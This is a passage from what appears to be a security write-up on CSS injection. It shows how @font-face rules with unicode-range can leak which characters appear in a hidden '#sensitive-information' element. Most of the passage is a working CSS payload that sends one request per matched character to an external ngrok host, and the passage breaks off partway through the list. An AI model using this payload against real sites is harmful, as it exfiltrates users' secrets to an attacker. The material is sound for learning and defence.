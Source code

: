 <p id="sensitive-information">AB</p>htm
{% endhighlight %} 

Since the sensitive information is under `#sensitive-information` and we can control the CSS code, we can use unicode-range to check if specific ASCII codes are present in `#sensitive-information`. Based on the example above, the victim's browser will make requests to `http://attacker.example.com/?A` and `http://attacker.example.com/?B`.

We can specify all the character codes A-Z, a-z, and 0-9 using `@font-face`. This way, the victim's browser will check for every ASCII code and make a request to `http://attacker.example.com` for each character.

{% highlight CSS %}

@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:A');
	unicode-range:U+0041;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:B');
	unicode-range:U+0042;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:C');
	unicode-range:U+0043;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:D');
	unicode-range:U+0044;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:E');
	unicode-range:U+0045;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:F');
	unicode-range:U+0046;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:G');
	unicode-range:U+0047;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:H');
	unicode-range:U+0048;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:I');
	unicode-range:U+0049;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:J');
	unicode-range:U+004A;
}
@font-face{